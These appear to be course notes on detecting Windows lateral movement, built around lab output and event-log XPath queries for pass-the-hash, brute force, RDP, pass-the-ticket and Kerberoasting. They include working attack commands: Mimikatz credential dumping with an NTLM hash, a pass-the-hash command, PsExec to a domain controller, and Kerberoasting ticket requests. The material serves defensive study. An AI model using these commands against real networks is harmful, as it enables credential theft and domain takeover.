







# Module 15: Windows Lateral Movement

## Windows Authentication

### Pass the Hash

<figure><figcaption><p>Normal NTLM Authentication</p></figcaption></figure>

In PtH, as long as the hash is valid, the challenge-response will succeed.

_Granting SeDebugPriv with Mimikatz_

```
C:\Windows\system32> C:\Users\mary\Desktop\Lateral_Movement\mimikatz

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 02:01:23
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK
```

_Dumping available credentials with Mimikatz_

```
mimikatz # sekurlsa::logonPasswords full

Authentication Id : 0 ; 12666091 (00000000:00c144eb)
Session           : Batch from 0
User Name         : offsec
Domain            : CORP
Logon Server      : DC01
Logon Time        : 3/18/2022 12:52:53 AM
SID               : S-1-5-21-2154860315-1826001137-329834519-1107
        msv :
         [00000003] Primary
         * Username : offsec
         * Domain   : CORP
         * NTLM     : 2892d26cdf84d7a70e2eb3b9f05c425e
         * SHA1     : a188967ac5edb88eca3301f93f756ca8e94013a3
         * DPAPI    : 5fdb91567262ddea80d60cb58266d5cd
...
```

_Running PtH with offsec password hash via Mimikatz_


```
mimikatz # sekurlsa::pth /domain:corp.com /user:offsec /ntlm:2892d26cdf84d7a70e2eb3b9f05c425e /run:powershell
```


_Obtaining a remote shell on DC01 with PsExec as offsec_


```
PS C:\Windows\system32> C:\Users\mary\Desktop\Lateral_Movement\PsExec64.exe /accepteula \\DC01 cmd.exe

PsExec v2.34 - Execute processes remotely
Copyright (C) 2001-2021 Mark Russinovich
Sysinternals - www.sysinternals.com


Microsoft Windows [Version 10.0.17763.2183]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
corp\offsec

C:\Windows\system32>hostname
dc01
```


If a user account is successfully impersonated then a logon event is generated on the machine it occurred on. This logon event ID is 4624.

_Checking the status of the Logon audit policy_

```powershell
PS C:\Windows\system32> auditpol /get /category:"Logon/Logoff"
System audit policy
Category/Subcategory                      Setting
Logon/Logoff
  Logon                                   Success and Failure
  Logoff                                  Success
...
```

<figure><figcaption><p>Event 4624 for PtH attack</p></figcaption></figure>

Important fields:

* _Subject_: Lists the account that initiated the authentication event.
* _Logon Type_: Indicates the type of logon that occurred.
* _New Logon_: Lists the account, the initiated impersonation event, and the targeted account.

_Logon Types_

| Logon type                                 | #  | Authenticators accepted                         | Reusable credentials in LSA session                                 | Examples                                                                                                                                                                   |
| ------------------------------------------ | -- | ----------------------------------------------- | ------------------------------------------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Interactive (also known as, Logon locally) | 2  | <p>Password, Smartcard,<br>other</p>            | Yes                                                                 | <p>Console logon;<br>RUNAS;<br>Hardware remote control solutions (such as Network KVM or Remote Access / Lights-Out Card in server)<br>IIS Basic Auth (before IIS 6.0)</p> |
| Network                                    | 3  | <p>Password,<br>NT Hash,<br>Kerberos ticket</p> | No (except if delegation is enabled, then Kerberos tickets present) | <p>NET USE;<br>RPC calls;<br>Remote registry;<br>IIS integrated Windows auth;<br>SQL Windows auth;</p>                                                                     |
| Batch                                      | 4  | Password (stored as LSA secret)                 | Yes                                                                 | Scheduled tasks                                                                                                                                                            |
| Service                                    | 5  | Password (stored as LSA secret)                 | Yes                                                                 | Windows services                                                                                                                                                           |
| NetworkCleartext                           | 8  | Password                                        | Yes                                                                 | <p>IIS Basic Auth (IIS 6.0 and newer);<br>Windows PowerShell with CredSSP</p>                                                                                              |
| NewCredentials                             | 9  | Password                                        | Yes                                                                 | RUNAS /NETWORK                                                                                                                                                             |
| RemoteInteractive                          | 10 | <p>Password, Smartcard,<br>other</p>            | Yes                                                                 | Remote Desktop (formerly known as "Terminal Services")                                                                                                                     |

_Detecting NewCrednetials logons by searching for LogonType 9 and EventID 4624_

```xml
<QueryList>
  <Query Id="0" Path="Security">
    <Select Path="Security">*[System[(EventID=4624)]]
    and 
    *[EventData[Data[@Name='LogonType'] and (Data='9')]]
    </Select>
  </Query>
</QueryList>
```


```powershell
PS C:\Windows\system32> C:\Users\mary\Desktop\Lateral_Movement\Audit-NewCredentialsLogons.ps1

TimeStamp                    SubjectUserName TargetUserName
---------                    --------------- --------------
2022-03-18T11:10:56.9064979Z mary            offsec
2022-03-18T11:10:34.8463294Z mary            offsec
...
```


<figure><figcaption><p>Example of event 7045 on DC01</p></figcaption></figure>

<figure><figcaption><p>Example of event 7036 on DC01</p></figcaption></figure>

_XPath XML for PSExec service installation_

```xml
<QueryList>
  <Query Id="0" Path="System">
    <Select Path="System">
    *[System[(EventID=7045)]]
    and
    *[EventData[Data[@Name='ServiceName'] and (Data='PSEXESVC')]]
    or
    *[System[(EventID=7036)]]
    and
    *[EventData[Data[@Name='param1'] and (Data='PSEXESVC')]]
    </Select>
  </Query>
</QueryList>
```

_Detecting PsExec service installation_


```powershell
PS C:\Users\offsec\Desktop\Lateral_Movement> .\Audit-PsExec.ps1

TimeStamp                      Event Details
---------                      ----- -------
2022-03-18T08:07:31.717432600Z 7036  Service PSEXESVC is running
2022-03-18T08:07:31.670551100Z 7045  Service PSEXESVC installed using %SystemRoot%\PSEXESVC.exe as LocalSystem
```


<figure><figcaption><p>Event 4624 generated on DC01 from PsExec</p></figcaption></figure>

_XPath XML for Network logons_

```xml
<QueryList>
  <Query Id="0" Path="Security">
    <Select Path="Security">*[System[(EventID=4624)]]
    and 
    *[EventData[Data[@Name='LogonType'] and (Data='3')]]
    and
 *[EventData[Data[@Name='AuthenticationPackageName'] and (Data='NTLM')]]
    </Select>
  </Query>
</QueryList>
```

_Detecting network logons_

```powershell
PS C:\Users\offsec\Desktop\Lateral_Movement> .\Audit-NetworkLogons.ps1

TimeStamp                      TargetUserName WorkstationName
---------                      -------------- ---------------
2022-03-21T12:27:52.689874500Z offsec         CLIENT03
2022-03-21T12:27:52.663173500Z offsec         CLIENT03
```

_Detecting PtH artifacts_


```powershell
PS C:\Users\offsec\Desktop\Lateral_Movement> .\Audit-PassTheHash.ps1

TimeStamp                      Event Details
---------                      ----- -------
2022-03-18T08:07:31.717432600Z 7036  Service PSEXESVC is running
2022-03-18T08:07:31.677554700Z 4624  offsec logged in remotely from CLIENT03
2022-03-18T08:07:31.670551100Z 7045  Service PSEXESVC installed using %SystemRoot%\PSEXESVC.exe as LocalSystem
2022-03-18T08:07:31.530198300Z 4624  offsec logged in remotely from CLIENT03
```


### Brute Force Domain Credentials

Creating a custom PowerShell function named _Get-BadPwdCount_

_Discovering the PDC and creating a search root string_


```powershell
$Domain = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = $Domain.PdcRoleOwner
$SearchRoot = "LDAP://{0}/DC={1}" -f $PDC,$Domain.Name.Replace('.',',DC=')
```


_Instantiating a DirectorySearcher object with a custom search root_

<pre class="language-powershell" data-overflow="wrap" data-line-numbers><code class="lang-powershell"><strong>$Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchRoot)
</strong></code></pre>

_Restricting our DirectorySearcher to only retrieve two attributes_


```powershell
$Searcher.PropertiesToLoad.Add("sAMAccountName") | Out-Null
$Searcher.PropertiesToLoad.Add("badPwdCount") | Out-Null
```


_LDAP search filter for a specific sAMAccountName_


```powershell
(sAMAccountName=$Username)
```


_LDAP search filter for all enabled user accounts_


```powershell
(&(objectCategory=person)(objectClass=user)(!userAccountControl:1.2.840.113556.1.4.803:=2))
```


_Listing failed logon attempts with Get-BadPwdCount_


```powershell
PS C:\Users\offsec\Desktop\Lateral_Movement> . .\Get-BadPwdCount.ps1

PS C:\Users\offsec\Desktop\Lateral_Movement> Get-BadPwdCount -List | Sort BadPwdCount -Descending

SamAccountName BadPwdCount
-------------- -----------
jane                    10
ben                      2
```


_Retrievin the lockout threshold with net accounts_

```powershell
PS C:\Users\offsec\Desktop\Lateral_Movement> net accounts
Force user logoff how long after time expires?:       Never
Minimum password age (days):                          1
Maximum password age (days):                          42
Minimum password length:                              3
Length of password history maintained:                24
Lockout threshold:                                    25
Lockout duration (minutes):                           30
Lockout observation window (minutes):                 30
Computer role:                                        PRIMARY
The command completed successfully.
```

_XPath XML for lockout events (4740)_

```xml
<QueryList>
  <Query Id="0" Path="Security">
    <Select Path="Security">
    *[System[(EventID=4740)]]
    </Select>
  </Query>
</QueryList>
```

We could also search through all failed logon events (4625)

<figure><figcaption><p>Event 4625 example</p></figcaption></figure>

### Terminal Services

By default, there are two logs that will trace RDP remote connection events, namely _TerminalServices-LocalSessionManager_ and _TerminalServices-RemoteConnectionManager_.

_Local Session Manager_ logs will include information about the local terminal session on the current machine, whereas the _Remote Connection Manager_ logs will include information about the terminal sessions events that were triggered from a remote computer.

When an RDP logon prompt is displayed, event ID 261 is created in the Remote Connection Manager logs.

If there's a successful authentication and connection then event ID 1149 is created.

_XPath XML for terminal services_


```xml
<QueryList>
  <Query Id="0" Path="Microsoft-Windows-TerminalServices-RemoteConnectionManager/Operational">
    <Select Path="Microsoft-Windows-TerminalServices-RemoteConnectionManager/Operational">
      *[System[(EventID=1149)]]
   </Select>
  </Query>
</QueryList>
```


## Abuse the Kerberos Ticket

### Pass the Ticket

When a KDC issues a TGT, the DC will create event ID 4768. When a client makes a TGS request, the DC will create event ID 4769.

Both of these events are provided by the _Kerberos Service Ticket Operations_ audit policy, which is a subcategory of _Account Logon_.

_XPath XML for TGT kerberos events_

```xml
<QueryList>
  <Query Id="0" Path="Security">
    <Select Path="Security">
     *[System[band(Keywords,9007199254740992) and (EventID=4768)]]
    </Select>
  </Query>
</QueryList>
```

_Extracting username and ip from 4768 events_


```powershell
$TimeStamp = $XML.Event.System.TimeCreated.SystemTime
$TargetUserName = $XML.Event.EventData.Data[0].'#text'
$IPAddress = $($XML.Event.EventData.Data[9].'#text')
If ($IPAddress -eq '::1') {
	$IPAddress = $(Test-Connection -ComputerName $env:COMPUTERNAME -Count 1 | Select -ExpandProperty IPv4Address).IPAddressToString
}
else {
	$IPAddress = $IPAddress.split('::ffff:')[-1]
}
```


_XPath XML for TGS kerberos events_

```xml
<QueryList>
  <Query Id="0" Path="Security">
    <Select Path="Security">
     *[System[band(Keywords,9007199254740992) and (EventID=4769)]]
   </Select>
  </Query>
</QueryList>
```

_Extracting username and ip from 4769 events_


```powershell
$TimeStamp = $XML.Event.System.TimeCreated.SystemTime
$TargetUserName = $($XML.Event.EventData.Data[0].'#text' -split '@')[0]
$IPAddress = $($XML.Event.EventData.Data[6].'#text')
If ($IPAddress -eq '::1') {
    $IPAddress = $(Test-Connection -ComputerName $env:COMPUTERNAME -Count 1 | Select -ExpandProperty IPv4Address).IPAddressToString
}
else {
    $IPAddress = $IPAddress.split('::ffff:')[-1]
}
```


_Ticket stealin detection logic_


```powershell
$TGT = Get-TGT
$TGS = Get-TGS
ForEach ($T in $TGS) {
    $Valid = $TGT | Where-Object {$_.TargetUserName -eq $($T.TargetUserName) -and $_.IPAddress -eq $($T.IPAddress)}
    If (!$Valid) {
        $T
    }
}
```


_Get-SessionUsers function to automate parsing output from klist_


```powershell
Function Get-SessionUsers {
    Begin {
        $Sessions = @()
        $Klist = klist sessions
    }
    Process {
        $Sessions = $Klist | Where-Object { $_ -like "*Session*$env:USERDOMAIN*" } | ForEach-Object { 
            [PSCustomObject]@{'LogonId' = $(($_ -split ' ')[3]).substring(2); 'User' = $($_ -split ' ')[4]}
        }
    }
    End {
        return $Sessions
    }
}
```


_Extracting user and logonid_


```powershell
$LogonId = $($Session.LogonId)
$Expected = $(($Session.User).Split('\')[1]).Trim()
```


_Extracting the user from specific session TGT_


```powershell
$Actual = $((((klist -li $LogonId  | sls '^#0') -split 'Client: ')[1] -split '@')[0]).Trim()
```


_Comparing the expected user with the actual user_


```powershell
if ($Expected -ne $Actual) {
    if (!$Actual -ne "$env:computername$") {
        $Flagged += $Session
    }
}
```


### Kerberoasting

_Kerberoasting_ relies on the fact that any client with a TGT can request a TGS for any service registered with a SPN in the domain.

SPN entries are stored in Active Directory as objects, and are discoverable using a simple LDAP enumeration script.

_Instantiating a DirectoryServer instance restricted to two properties_


```powershell
$Searcher = New-Object System.DirectoryServices.DirectorySearcher
$Searcher.PropertiesToLoad.Add("sAMAccountName") | Out-Null
$Searcher.PropertiesToLoad.Add("servicePrincipalName") | Out-Null
$Searcher.PageSize = 1000
```


_SPN LDAP Filter_


```powershell
$Searcher.Filter = "(&(objectCategory=person)(objectClass=user)(!userAccountControl:1.2.840.113556.1.4.803:=2)(ServicePrincipalName=*))"
```


_Extracting SPN info from LDAP result set_


```powershell
$SPN = $Searcher.FindAll() | Select Path, @{l='SPN'; e={$_.Properties.serviceprincipalname}}
```


_TGS request_


```powershell
foreach($spn in $SPN)
{
    Add-Type -AssemblyName System.IdentityModel
    New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $spn.SPN
}
```


<figure><figcaption><p>TGS request event</p></figcaption></figure>

_XPath XML for RC4 encrypted TGS requests_

```xml
<QueryList>
  <Query Id="0" Path="Security">
    <Select Path="Security">
     *[System[(EventID=4769)]] 
     and
     *[EventData[Data[@Name='TicketEncryptionType'] and (Data='0x17' or Data='0x18')]]
   </Select>
  </Query>
</QueryList>
```

_XPath XML for TGS honey tokens_

```xml
<QueryList>
  <Query Id="0" Path="Security">
    <Select Path="Security">
     *[System[(EventID=4769)]]
     and
     *[EventData[Data[@Name='ServiceName'] and (Data='Honeytoken')]]
   </Select>
  </Query>
</QueryList>
```
